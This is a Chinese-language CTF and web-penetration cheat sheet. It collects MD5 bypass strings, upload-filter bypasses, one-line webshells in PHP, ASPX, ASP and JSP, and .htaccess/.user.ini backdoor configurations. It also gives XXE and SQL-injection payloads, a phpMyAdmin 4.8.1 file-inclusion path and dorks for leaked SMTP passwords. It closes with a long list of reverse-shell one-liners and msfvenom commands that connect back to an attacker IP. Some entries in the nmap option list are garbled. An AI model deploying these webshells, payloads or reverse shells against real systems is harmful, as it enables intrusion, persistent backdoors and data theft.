

---

---

# 1.WEB

## 1.Json数据格式

### JSON数值

- 格式：{ “key” : value}
- 示例： {“key1”:100,“key2”:20}

###  JSON字符串

- 格式：{ “key” : “value”}
- 示例： {“key1” : “张三”,“key2” : “大忽悠”}

###  JSON数组

- 格式：{ “key” : [value]}
- 示例：{key" : [000, 111111],“key1” : [18874, 15157]}

###  JSON对象

- 格式：{ “key” : {value}}
- 示例： {“key” : {“1”: “亚索”},“key1” : {“2”: “刘备”}}

### JSON[对象数组](https://so.csdn.net/so/search?q=对象数组&spm=1001.2101.3001.7020)

- 格式：{ “key” : [{“key1”: “value1”},{“key2”: “value2”}]}
- 示例：{“我”:[{“key”: “好好学习”},{“key1”:“天天向上”}]}
-   {
          "我" : [
                        {"key": "好好学习"},
                        {"key1": "天天向上"}
          ]
      }

###  JSON数组对象

- 格式：{“key”:{“key1”:[value1,value2]}}
- 示例：{“我”:{“你” : [18874,15157]}}
-   {
          "我" : {
                        "你" : [18874,15157]           
          }
      }

## 2.Md5绕过

### 常规的0e绕过

- QNKCDZO
- 240610708
- s878926199a
- s155964671a
- s214587387a
- s214587387a

这些字符串的 md5 值都是 0e 开头，在 php 弱类型比较中判断为相等

### 数组绕过(强弱比较皆可绕过)

较低版本的 PHP 中, MD5()函数在接收一个数组后, 不管数组内容是什么都会返回 null

提交name[]=123 &password[]=234

### 强类型绕过

if((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))

URL解码后MD5值相等

**1.**a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

**2.**$Param1="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$Param2="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";

**3.**$data1="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x07\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\xf1\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\x72\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\x34\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\x28\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\xab\x6f\xf7\x2a\x70";
$data2="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x87\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\x71\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\xf2\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\xb4\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\xa8\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\x2b\x6f\xf7\x2a\x70";


ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6
而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 select * from 'admin' where password='' or '6xxxxx'，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数。

### $a==md5($a)

0e215962017

## 4.文件上传漏洞

### 1. 绕过思路

```php+HTML
ASP：asa、cer、cdx

ASPX：ashx、asmx、ascx、esms

PHP：php4、php5、phtml

JSP：jspx、jspf

复写绕过:pphphp

.php/.php5/.php4/.php3/.php2/php1/.html/.htm/.phtml/.pHp/.pHp5/.pHp4/.pHp3/.pHp2/.pHp1/.Html/.Htm/.pHtml
```


## 5.一句话木马

### PHP

 方便绕过开头可以加上GIF89a gif的文件头

1. ```
   GIF89a
   
   <?php @eval($_POST[cmd]); ?>
   如果有长度限制
<?php eval($_GET[cmd]);
   ```

   ```
   GIF89a
   <script language="php">
   @eval($_POST['cmd']);phpinfo();
   </script>
   ```
   
   
   
2. 

```
<script language="php">@eval_r($_POST[cmd])</script>
```

3.[网鼎杯 2020 朱雀组]Nmap 1

Namp -oG将内容写入文件

短标签<?php?> 可以用<?=?>代替

```php
<?= @eval($_POST[cmd]); ?> -oG a.phtml
```

然后蚁剑连接

### aspx

```
<% @Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
```

### asp

```
<%eval request("x")%>
```

### jsp

#### 无回显

http://localhost:8003/index.jsp?cmd=whoami

不会回显执行的结果只能在后台打印一个地址，常用来反弹shell

```
 <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
%>

```

#### 有回显

```
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

#### 有密码有回显

```
  <%
    if ("password".equals(request.getParameter("pass"))){
      Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
      InputStream inputStream = process.getInputStream();
      BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
      String line;
      while ((line = bufferedReader.readLine()) != null){
        response.getWriter().println(line);
      }
    }
  %>

```

http://localhost:8003/index.jsp?pass=password&cmd=whoami

### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>

上传.htaccess，需要将文件格式改为 image/jpeg


上传.htaccess中识别的文件

蚁剑连接，连接的是上传文件所在的位置 

例：http://789b3aeb-6590-4b6a-89bb-17c389233df7.node4.buuoj.cn:81/upload/ff435120073c8f309f3001ca17632671/flag.jpg

对.htacccess进行过滤时

### 3、 .user.ini(局限在当前目录下有php文件)

GIF89a 

auto_prepend_file=b.gif //文件名为之前上传的一句话木马文件

### 特殊情况

会出现蚁剑连接后没有权限读取文件的情况，使用刚才上传的一句话木马进行文件读取

print_r(scandir('.'));读取当前文件夹下的所有文件

show_source('flag');读取flag

## 6.网站源码备份文件

常见的网站源码备份文件后缀:

tar.gz，zip，rar，tar

常见的网站源码备份文件名：

web，website，backup，back，www，wwwroot，temp

例如：www.zip

 可以使用dirsearch扫描 在D:\Program\PYthon\Python\dirsearch-master目录下

python dirsearch.py -u 网址

python dirsearch.py -e bak,zip,tgz,txt,php -u https://target -t 30

扫描指定后缀名的文件


## 8.get传数组

GET http://localhost:8080/users?roleIds=1&roleIds=2

GET http://localhost:8080/users?roleIds[0]=1&roleIds[1]=2

GET http://localhost:8080/users?roleIds[]=1&roleIds[]=2

GET http://localhost:8080/users?roleIds=1,2

## 9.请求头

User-Agent：标识客户端使用的浏览器和操作系统信息。可以通过$_SERVER['HTTP_USER_AGENT']获取。


Accept：指定客户端能够处理的内容类型，即可接受的媒体类型。可以通过$_SERVER['HTTP_ACCEPT']获取。


Content-Type：指定请求体中的数据格式类型。常见的取值有application/json、application/x-www-form-urlencoded等。可以通过$_SERVER['CONTENT_TYPE']获取。


Authorization：用于进行身份验证的凭证信息。常见的取值有Bearer Token、Basic Authentication等。可以通过$_SERVER['HTTP_AUTHORIZATION']获取。


Cookie：包含来自客户端的Cookie信息。可以通过$_SERVER['HTTP_COOKIE']获取。


Referer：指示当前请求是从哪个URL页面发起的。可以通过$_SERVER['HTTP_REFERER']获取。


Host：指定服务器的域名或IP地址。可以通过$_SERVER['HTTP_HOST']获取。


X-Requested-With：指示请求是否由Ajax发起的。通常在Ajax请求中会设置该头部字段，取值为"XMLHttpRequest"。可以通过$_SERVER['HTTP_X_REQUESTED_WITH']获取。


Content-Length：指定请求体的长度。可以通过$_SERVER['CONTENT_LENGTH']获取。


Cache-Control：控制缓存行为的指令。用于指定客户端和代理服务器如何缓存响应。可以通过$_SERVER['HTTP_CACHE_CONTROL']获取。


**X-Forwarded-For**（XFF）请求标头是一个事实上的用于标识通过代理服务器连接到 web 服务器的客户端的原始 IP 地址的标头。

简单讲就是标识是谁访问的，本地就是127.0.0.1


session是认证用户身份的凭证

1. 用户不可以任意篡改
2. A用户的session无法被B用户获取


## 10.Tornado

Cookies和secure cookies

普通的cookie并不安全, 可以通过客户端修改. 如果你需要通过设置cookie, 例如来识别当前登录的用户, 就需要给你的cookie签名防止伪造. Tornado 支持通过 [set_secure_cookie](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.set_secure_cookie) 和 [get_secure_cookie](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.get_secure_cookie) 方法对cookie签名

------

在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量。

简单理解handler.settings即可，可以把它理解为tornado模板中内置的环境配置信息名称，通过handler.settings可以访问到环境配置的一些信息，看到tornado模板基本上可以通过handler.settings一把梭。

使用·{{}}访问

## 11.WEB_INF

WEB-INF是java的WEB应用的安全目录。

1.WEB-INF/web.xml

web应用程序配置文件，描述了servlet和其他的应用组件配置及命名规则。

2.WEB-INF/classes

包含了站点所有用的class文件，包括servlet class和非servlet class

3.WEB-INF/lib

存放web应用需要的JAR文件

4.WEB-INF/src

源码目录，按照包名结构放置各个java文件

5.WEB-INF/database.properties

数据库配置文件

6.WEB-INF/tags

存放了自定义标签文件

7.WEB-INF/jsp

jsp 1.2 一下版本的文件存放位置。

8.WEB-INF/jsp2

存放jsp2.0以下版本的文件。

9.META-INF

相当于一个信息包。

漏洞形成原因：

Tomcat的WEB-INF目录，每个j2ee的web应用部署文件默认包含这个目录。

Nginx在映射静态文件时，把WEB-INF目录映射进去，而又没有做Nginx的相关安全配置（或Nginx自身一些缺陷影响）。从而导致通过Nginx访问到Tomcat的WEB-INF目录（请注意这里，是通过Nginx，而不是Tomcat访问到的，因为上面已经说到，Tomcat是禁止访问这个目录的。）。

漏洞利用方式：

直接在域名后面加上WEB-INF/web.xml就可以了。
根据web.xml配置文件路径或通常开发时常用框架命名习惯，找到其他配置文件或类文件路径。
dump class文件进行反编译。

**简单来说：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。**


找到flag文件，通过目录下载


## 12.nmap端口扫描

nmap是一款非常强大的主机发现和端口扫描工具，而且nmap运用自带的脚本，还能完成漏洞检测，同时支持多平台。

nmap常用命令
主机发现 

iR                                                                随机选择目标

-iL                                                                从文件中加载IP地址

-sL                                                               简单的扫描目标

-sn                                                               Ping扫描-禁用端口扫描

-Pn                                                              将所有主机视为在在线，跳过主机发现

-PS[portlist]                                              （TCP SYN ping） 需要root权限

-PA[portlist]                                              （TCP ACK ping）

-PU[portlist]                                              （UDP  ping）

-PY [portlist]                                             （SCTP ping）

-PE/PP/PM                                                 ICMP回显，时间戳和网络掩码请求探测

-PO[协议列表]                                            IP协议Ping

-n/-R                                                           从不执行DNS解析/始终解析[默认：有时]

--dns-servers                                              指定自定义DNS服务器

--system-dns                                              使用OS的dns服务器

--traceroute                                                跟踪到每个主机的跃点路径

扫描技术

-sS                                                             使用TCP的SYN进行扫描

-sT                                                             使用TCP进行扫描

-sA                                                            使用TCP的ACK进行扫描

-sU                                                            UDP扫描

-sI                                                             Idle扫描

-sF                                                            FIN扫描

-b<FTP中继主机>                                     FTP反弹扫描

端口规格和扫描顺序

-p                                                              扫描指定端口

--exclude-ports                                         从扫描中排除指定端口

-f                                                               快速模式-扫描比默认扫描更少的端口

-r                                                               连续扫描端口-不随机化

--top-ports                                                 扫描<number>最常用的端口

服务/版本探测

-sV                                                            探测服务/版本信息

--version-intensity                                     设置版本扫描强度（0-9）

--version-all                                              尝试每个强度探测

--version-trace                                          显示详细的版本扫描活动（用于调试）

脚本扫描

-SC                                                           等效于 --script=defult

--script = <lua scripts>,<lua scripts>        以逗号分隔的目录，脚本文件或脚本类别

--script-args = <n1=v1, n2=v2>               为脚本提供参数

--script-args-file=文件名                          从文件名中加载脚本参数

--script-trace                                            显示发送和接受的所有数据

--script-updatedb                                     更新脚本数据库

--script-help=<lua scripts>                      显示有关脚本的帮助

操作系统检测

-o                                                            启用os检测

--osscan-limit                                          将os检测限制为可能的目标

--osscan-guess                                       推测操作系统检测结果

时间和性能

--host-timeout                                         设置超时时间

--scan-delay                                           设置探测之间的时间间隔

-T  <0-5>                                                设置时间模板,值越小，IDS报警几率越低

防火墙/IDS规避和欺骗

-f                                                             报文分段

-s                                                             欺骗源地址

-g                                                            使用指定的本机端口

--proxies <url,port>                                 使用HTTP/SOCK4代理

-data<hex string>                                   想发送的数据包中追加自定义的负载

--data-string                                            将自定义的ACSII字符串附加到发送数据包中   

--data-length                                           发送数据包时，附加随机数据

--spoof-mac                                            MAC地址欺骗

--badsum                                                发送带有虚假TCP/UNP/STCP校验和的数据包

输出

-oN                                                         标准输出

-oX                                                         XMl输出

-oS                                                         script jlddi3

-oG                                                        grepable

-oA                                                         同时输出三种主要格式

-v                                                           信息详细级别

-d                                                           调试级别

--packet-trace                                        跟踪发送和接收的报文

--reason                                                 显示端口处于特殊状态的原因

--open                                                    仅显示开放的端口

杂项

-6                                                          启动Ipv6扫描

-A                                                          启动Os检测，版本检测，脚本扫描和traceroute

-V                                                          显示版本号

-h                                                          帮助信息
————————————————

原文链接：https://blog.csdn.net/smli_ng/article/details/105964486

## 13.目录扫描

dirseach 

dirsearch -u url

## 14.XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

## 15.phpmyadmin 4.8.1 远程文件包含漏洞

总结：

利用phpMyAdmin 4.8.1后台文件包含漏洞，获取登录phpmyadmin系统所产生的sess_sessionID文件，然后通过文件绕过获取相关信息并植入木马，最终获取webshell。通常linux系统中存放路径为/tmp/sess_[当前会话session值]。

### 访问文件

访问`http://x.x.x.x:8080/index.php?target=db_sql.php%253f/../../../../../../../../flag`，可见`flag`被读取，说明文件包含漏洞存在


## 16.变量覆盖

```php
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

```

extract()函数从数组中将变量导入到当前符号表

当我们传入SESSION[flag]=123时，$SESSION["user"]和$SESSION['function'] 全部会消失。只剩下_SESSION[flag]=123。



## 17.http方法

- **GET**：请求从服务器获取指定资源。这是最常用的方法，用于访问页面。
- **POST**：请求服务器接受并处理请求体中的数据，通常用于表单提交。
- **PUT**：请求服务器存储一个资源，并用请求体中的内容替换目标资源的所有内容。
- **DELETE**：请求服务器删除指定的资源。
- **HEAD**：与 GET 类似，但不获取资源的内容，只获取响应头信息。
- **1xx（信息性状态码）**：表示接收的请求正在处理。
- **2xx（成功状态码）**：表示请求正常处理完毕。
- **3xx（重定向状态码）**：需要后续操作才能完成这一请求。
- **4xx（客户端错误状态码）**：表示请求包含语法错误或无法完成。
- **5xx（服务器错误状态码）**：服务器在处理请求的过程中发生了错误。

## 18.软连接

**可以将某个目录连接到另一个目录或者文件下，那么我们以后对这个目录的任何操作，都会作用到另一个目录或者文件下。**

用法：

ln -s  [源文件]  [软链接文件]

ln -s /bin/less /usr/local/bin/less

## 19.jwt

header.payload.signature

爆破秘钥使用jwtcracker（在wsl中）

用法 ./jwtcrack <jwt>

## 18

#  2.SQL注入

## 1.过滤

1.空格过滤使用括号绕过或者时候/**/

2.and过滤使用^连接

3.等号过滤使用like


## 2.技巧

**1.**4.username=44&password=1'^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23 

from(geek.H4rDsq1) 前面是库名，后面是表名

**2.**flag分为前后flag

username=44&password=1%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23


username=44&password=1%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23

将前后flag拼接


## 3.堆叠注入

1'; show tables;#

命令使用分号隔开

## 4.Mysql :handler命令（select被过滤）

handle 不是通用的sql语句，是Mysql独有的，可以逐行浏览某个表中的数据

handler 表名 open；打开表

handler 表名 read first；查看数据

handler 表名 read close;关闭表

geekuser,l0ve1ysq1


## 5.预编译

相当于将一个语句写入另一个语句，执行另一个语句

举例：查询ID为1的用户

> 1. 方法一：
>
>    select * form t_user where user_id = 1
>
> 2. 方法二：
>
>    prepare jia from 'select  * from t_user where user_id =1';
>
>    execute jia;
>
> 3. 方法三：
>
>    prepare jia from 'select * from t_user where user_id =?';
>
>    set @id=1;
>
>    execute jia using @id;
>
> 4. 方法四：
>
>    set @sql ='select * from t_user where user_id=1';
>
>    prepare jia from @sql;
>
>    exectue jia;
>
> 


# **3.PHP命令执行**

## 1.读取文件内容

file命令

text=file://+路径

data命令

text=data://text:text/plain,+内容

## 2.is_numeric函数

**作用：**判断是否是数字

### 思路1：

数值%00

数值%20   //%20是空格

%00数值

### 思路2：

转换为16进制字符串

## 3.执行指定的代码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}

```

只需要执行getflag（）函数，并且传入cmd参数

(url).../next.php?id=1&\S*={${getFlag()}}&cmd=system('linux命令');

正则表达式\S*表示匹配非空字符串

匹配到的是getFlag这个函数

然后传入cmd参数

## 4.escapeshellarg || escapeshellcmd

escapeshellarg 将字符串转码为可以在shell命令中使用的参数，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用

escapeshellcmd对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

<font color=red>单引号绕过思路,可以在本地调试，思路就是加上单引号，与函数过滤后加上的单引号形成闭合</font>>

- 传入的参数是：172.17.0.2<font color=red>**'**</font> -v -d a=1
- 经过escapeshellarg处理后变成了<font color=pink>**'**</font>>172.17.0.2<font color=pink>**'**</font><font color=red>**\\'**</font><font color=blue>**'** </font>>-v -d a=1<font color=blue>**'**</font>>，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
- 经过escapeshellcmd处理后变成'172.17.0.2'\\\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
- 最后执行的命令是curl '172.17.0.2'\\\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。


## 5.intvla函数

### 1.用法

int intval( $var, $base )

- $var：需要转换成 integer 的「变量」
- $base：转换所使用的「进制」

### 2.进制自动转换

当 base 为空时，默认值是 0，会根据 $var 的格式来调整转换的进制。

- 如果 $var 以 0 开头，就使用 8进制
- 如果 $var 以0x开头，就使用 16进制
- 否则，就使用 10进制

<font color=red>**绕过思路：当某个数字被过滤时，可以使用它的 8进制/16进制来绕过。**</font>

### 3.转换数组

转换数组类型时，不关心数组中的内容，只判断数组中有没有元素。

- 「空数组」返回 0
- 「非空数组」返回 1

如果传入的 $var是数组中的某个值时，则当做变量来转换，而不是当做数组类型。

```php
$arr1 = array(8,6);

var_dump(intval($arr1[0]));
```

输出8

<font color=red>**绕过思路：对于弱比较（a==b），可以给a、b两个参数传入空数组，使弱比较为true。**</font>

### 4.转换小数

intval() 转换小数类型时，只返回个位数，不遵循四舍五入的原则。

<font color=red>**绕过思路：当某个数字被过滤时，可以给它增加小数位来绕过。**</font>

### 5.转换字符串

intval() 转换字符串类型时，会判断字符串是否以数字开头

- 如果以数字开头，就返回1个或多个连续的数字
- 如果以字母开头，就返回0

单双引号对转换结果没有影响，并且 0 或 0x 开头也只会当做普通字符串处理。

### 6.取反~

```php
var_dump(intval(~10));
var_dump(intval(~~10));
```

输出-10

10

<font color=red>**绕过思路：当某个数字被过滤时，可以两次取反来绕过。**</font>


### 7.算数运算符

先运算再转换

```php
var_dump(intval(100e1));
var_dump(intval(100e2));
```

输出100

10000

<font color=red>**绕过思路：当某个数字被过滤时，可以使用算数运算符绕过。**</font>

## 6.preg_match函数绕过

反斜杠绕过：l\s

# 4.源码泄露

https://www.secpulse.com/archives/124398.html

## 1.GitHack

GitHack.py是基于python3的语法

dirsearch扫描目录 发现/.git/下有源码泄露

python GitHack.py url../.git/

## 2.SVN

  python SvnHack.py -u url

## 3.DS_Store

## 4.composer.json

## 5.搜索关键字

GITHUB资源搜索：

in:name test        #仓库标题搜索含有关键字 

in:descripton test     #仓库描述搜索含有关键字 

in:readme test       #Readme文件搜素含有关键字 

stars:>3000 test      #stars数量大于3000的搜索关键字 

stars:1000..3000 test    #stars数量大于1000小于3000的搜索关键字 forks:>1000 test      #forks数量大于1000的搜索关键字 

forks:1000..3000 test    #forks数量大于1000小于3000的搜索关键字 size:>=5000 test      #指定仓库大于5000k(5M)的搜索关键字 pushed:>2019-02-12 test   #发布时间大于2019-02-12的搜索关键字 created:>2019-02-12 test  #创建时间大于2019-02-12的搜索关键字 user:test          #用户名搜素 

license:apache-2.0 test   #明确仓库的 LICENSE 搜索关键字 language:java test     #在java语言的代码中搜索关键字 

user:test in:name test   #组合搜索,用户名test的标题含有test的

关键字配合谷歌搜索：

site:Github.com smtp  

site:Github.com smtp @qq.com  

site:Github.com smtp @126.com  

site:Github.com smtp @163.com  

site:Github.com smtp @sina.com.cn 

site:Github.com smtp password 

site:Github.com String password smtp

# 5.反弹shell


### bash反弹shell

```
攻击者：nc -lvp 9999

受害者：bash -i >& /dev/tcp/192.168.239.128/9999 0>&1
```

#### base64编码

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45Lzk5OTkgMD4mMQ== | base64 -d | bash 
```


### nc反弹shell

需要目标主机安装了nc

```bash
攻击者：nc -lvp 4566

受害者：nc -e /bin/bash 192.168.239.128 4566
```

### php反弹

首先最简单的一个办法，就是使用php的exec函数执行反弹shell
（需要php关闭safe_mode选项，才可以使用exec函数）

```
攻击者：nc -nvlp 9875

受害者：php -r 'exec("/usr/bin/bash -i >& /dev/tcp/192.168.239.128/9875 0>&1");'
```

一些变形

```bash
攻击者：nc -nvlp 4986

php -r '$sock=fsockopen("192.168.239.128",4986);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### exec反弹

```
攻击者：nc -nvlp 5623

受害者：0<&196;exec 196<>/dev/tcp/192.168.239.128/5623; sh <&196 >&196 2>&196
```

### perl反弹

```
攻击者：nc -nvlp 5623

受害者：perl -e 'use Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### awk反弹

```
攻击者：nc -nvlp 5623

受害者：awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### telnet反弹

需要在攻击主机上分别监听4567和7654端口，执行反弹shell命令后，在4567终端输入命令，7654查看命令执行后的结果

```
攻击者：
nc -nvlp 4567		#输入命令
nc -nvlp 7654		#输出命令

受害者：
telnet 192.168.239.128 4567 | /bin/bash | telnet 192.168.239.128 7654
```

### socat反弹

```
攻击者：nc -nvlp 8989

受害者：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.239.128:8989
```

### windows反弹shell

#### nc反弹shell

攻击者：
nc -lvp 8989

受害者：
1：netcat 下载：https://eternallybored.org/misc/netcat/
2：解压后的文件夹里面，按住shift键的同时，在文件夹的空白处鼠标右键打开一个命令窗口
3：输入nc 192.168.239.128 8989 -e c:\windows\system32\cmd.exe

#### MSF反弹

使用 msfvenom -l 结合关键字过滤（如cmd/windows/reverse），找出我们可能需要的payload

```
msfvenom -l payloads | grep 'cmd/windows/reverse'
生成命令
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o shell.exe
```

使用模块开启监听

```
use exploit/multi/handler
```

tftp上传默认是以ascii码的方式

要转换为二进制上传

```
tftp>binary
tftp>put /cgi-bin/shell.exe
```

然后MSF启动监听

复制前面通过msfvenom生成的恶意代码到win7的cmd中执行即可。
警告：有的文章说的是把那段恶意代码放到powershell中执行是不对的，也不能拿到session，至少我验证的结果是把代码放在cmd下执行才拿到session！

### python反弹

```
cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.137.129",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

